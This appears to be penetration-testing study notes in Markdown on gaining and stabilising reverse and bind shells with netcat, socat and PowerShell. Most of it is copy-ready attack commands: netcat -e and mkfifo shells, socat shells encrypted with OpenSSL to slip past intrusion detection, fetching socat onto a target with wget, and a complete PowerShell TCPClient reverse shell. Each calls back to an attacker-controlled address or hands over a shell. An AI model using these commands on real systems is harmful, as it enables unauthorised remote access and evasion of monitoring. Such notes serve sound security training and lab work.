 # Shells

bash or sh on Linux, cmd.exe or Powershell on WindowsReverse
Shell - attack runs exploit so remote server sends attacker command line access. Good for bypassing target firewall rules.
Bind shell - attacker runs exploit opening a port hosting command line on the server and then connects it. No config on home network required.

# Malicious shellcode

- netcat - set up network interaction and listeners to receive shellssocat - netcat on steroids, typically more stable, but harder syntax and not default
- Metasploit auxiliary/multi/handler - stable shells and meterpreter shell, also makes it easy to handle stages payloads
- msfvenom - multi-capable payload generating tool, including reverse and bind shells
- *reference SecLists repo for good wordlists / creds*

### Reverse Shell (linux ex):

Local > `sudo nc -lvnp 443`, to set up a listener for HTTPS
Target > `nc MY_IP PORT -e /bin/bash`, to connect to listener serving bash

### Bind Shell (windows ex):

Target > `nc -lvnp PORT -e "cmd.exe"`
Local > `nc TARGET_IP PORT`

# Interactive vs Non-interactive Shell

- Interactive allows a use to be prompted by and respond to executed programs
- Non-interactive is incapable of providing this functionality. As a result, commands like ssh that prompt for login don't work without a shell being upgraded to interactive.

# Netcat Shell Stabilization

*typically harder in Windows than in Linux*

### Technique 1: Python (Linux)
- `python -c 'import pty;pty.spawn("/bin/bash")`  *spawns a featured bash shell, may need to specify python version*
- `export TERM=xterm`, sets terminal emulator to xterm for more features
- CTRL-Z, to background shell
- `stty raw -echo; fg`, turn off base terminal echo (gives tab autocomplete, arrow keys, CTRL-C) then foreground shell
    *if shell dies, base terminal is invisible, use `reset` to get it back*

### Technique 2: rlwrap (Windows & Linux)
- `sudo apt install rlwrap`, premade program that gives most shell features
- `rlwrap nc -lvnp PORT`, run program on nc
- (Linux) CTRL-Z, then `stty raw -echo; fg`, turn off base terminal for complete stabilization

### Technique 3: Socat (Linux)
- Host python server in socat **binary** directory, for upload to target
- `wget SERVER/socat -O /tmp/socat` on target to get the binary file (no dependencies) for execution

### Extra (text editor usability)
- `stty -a` in another terminal to get terminal display info
- `stty rows XX` and `stty cols XX` on target using previous values

# socat

*point to point connector ie. keyboard to port, file to port, port to port*

### Reverse Shells
- `socat TCP-L:PORT -`, basic listener
- `socat TCP:MY_IP:PORT EXEC:powershell.exe,pipes`, listener on Windows (pipes for unix style I/O)
*run the previous commands on the target for a bind, and `socat TCP:TARGET_IP:PORT -` on local machine ofr a bind shell*

### Interactive Shell (tty)
1.  ``socat TCP-L:PORT FILE:`tty`,raw,echo=0`` , sets up connection to port with a featured shell, but it must have socat installed
2. upload socat binary to target ( `python3 -m http.server` in socat dir -> `wget` on target)
3. `socat TCP:MY_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane` , hosts interactive shell on target
>bash -li, -l is "login shell" meaning, ini files are read from /home/*user*, and -i means interactive
> pty (pseudo-teletype), allocates a pseudoterminal on the target via a "pipe" -- part of the stabilization process
> stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
> sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
> setsid, creates the process in a new session
> sane, stabilises the terminal, attempting to "normalise" it.


# socat Encrypted Shells

socat can perform shell encryption which often passes IDS by default. *Replace `TCP` with `OPENSSL` to create **encrypted** socal shells*

### Certificate Generation
- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 365 -out shell.crt`, to generate a 2048 bit RSA cert, self-signed, valid for a year
- `cat shell.key shell.crt > shell.pem`, merges the key and cert in a pem file, cert **must** be used on **listening machine**
  
### Reverse Shell
- `socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0 -` , attacker sets up openSSL listener with self-signed cert, but tells it not to verify it
- `socat OPENSSL:ATTACK-IP:PORT,verify=0 EXEC bin/bash` , target offers shell control, no verification
  
### Bind Shell
- `socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0,EXEC:cmd.exe,pipes` , target machine listens
- `socat OPENSSL:TARGET-IP:PORT,verify=0 -` , attacker interacts with hosted shell

# Common Shell Payloads

- netcat for windows, `nc.exe`, located at: `/usr/share/windows-resources/binaries` in kali
- `-e` , allows for process execution on connnection, ie. `/bin/bash` 
-  ex. `nc -lvnp 8000 -e /bin/bash` hosts terminal to a connector (bind)
-  ex. `nc 10.10.10.69 8000 -e /bin/bash` offers terminal to listener (reverse)

### -e Exclusion Workaround (Linux)
`mkfifo /tmp/f; nc -lvnp 8000 < /tmp/f | /bin/sh > tmp/f 2>&1; rm /tmp/f`   (BIND)
 - mkfifo, creates a named pipe at location
 - nc listener, takes input from (currently empty) pipe
 - nc listener outputs to a spawned sh session (the terminal commands from the attacker)
 - sh session outputs stdout and stderror to pipe (which feeds nc, giving feedback to the attacker)
`mkfifo /tmp/f; nc 10.10.10.69 8000 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f` (REVERSE)

### -e Exclusion (Windows)
`powershell -c $client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
- 